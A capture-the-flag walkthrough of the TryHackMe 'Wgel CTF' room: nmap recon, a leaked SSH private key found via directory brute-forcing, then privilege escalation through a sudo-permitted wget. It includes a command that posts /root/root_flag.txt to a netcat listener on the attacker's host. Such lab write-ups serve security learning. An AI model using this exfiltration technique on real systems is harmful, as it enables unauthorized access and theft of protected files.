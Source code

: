 # [Wgel CTF](https://tryhackme.com/room/wgelctf)

`Machine's IP - 10.10.33.168`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.33.168 -Pn > nmap-wgel.log`

# Analyzing Information and Risks


```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-18 21:23 Central Standard Time (Mexico)
Nmap scan report for 10.10.33.168
Host is up (0.60s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.68 seconds
```

Realizing that `SSH` was open, I went to the website to see if maybe we can get some credentials or a key. Upon entering `http://10.10.33.168/` I noticed that it was the default starting template for Apache2. The strange thing was that the listing was wrong, look:

```bash
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 
          
```

If you've used Apache2 before, you'd know something was wrong, so I viewed the source file and found this:

```
 <!-- Jessie don't forget to udate the webiste -->
```

So, we can guess the user is `Jessie`.

Using dirbuster, I was able to find `http://10.10.33.168/sitemap/`. Here, I decided to try getting an indexing page and stumbled upon `http://10.10.33.168/sitemap/.ssh/` which gave me an `id_rsa`. Quickly, I downloaded the key and prepared myself for SSH login.

First, I renamed the file to match with the user \
`mv id_rsa.txt id_jessie`

Secondly, I changed the permissions of the file \
`chmod 600 id_jessie`

Finally, I got in `ssh -i id_jessie jessie@10.10.33.168` and had a console. 

Once inside, I looked for the `user.txt`.

```bash
jessie@CorpOne:~$ find | grep flag
./Documents/user_flag.txt
jessie@CorpOne:~$ cat ~/Documents/user_flag.txt
********************************
```

I tried to enumerate my permissions after that with `sudo -l` and noticed something strange but interesting

```bash
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Once read that, I immediately opened a new tab and went to [GTFOBins](https://gtfobins.github.io/) and searched for `wget`. Here, I was bestowed upon me the following command

```bash
wget --post-file=$LFILE $URL
```

I got another tab in bash open, started a `Netcat` listener

```bash
> nc -lvnp 4445
listening on [any] 4445 ...
```

On my SSH key I ran the following command

```bash
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.6.20.112:4445/
--2020-11-19 05:47:41--  http://10.6.20.112:4445/
Connecting to 10.6.20.112:4445... connected.
```

And just like that, I got the `root.txt`

```bash
> nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.6.20.112] from (UNKNOWN) [10.10.33.168] 43532
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.6.20.112:4445
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

********************************
```

# My Account
<script src="https://tryhackme.com/badge/41721"></script>

## License
[MIT](https://choosealicense.com/licenses/mit/)
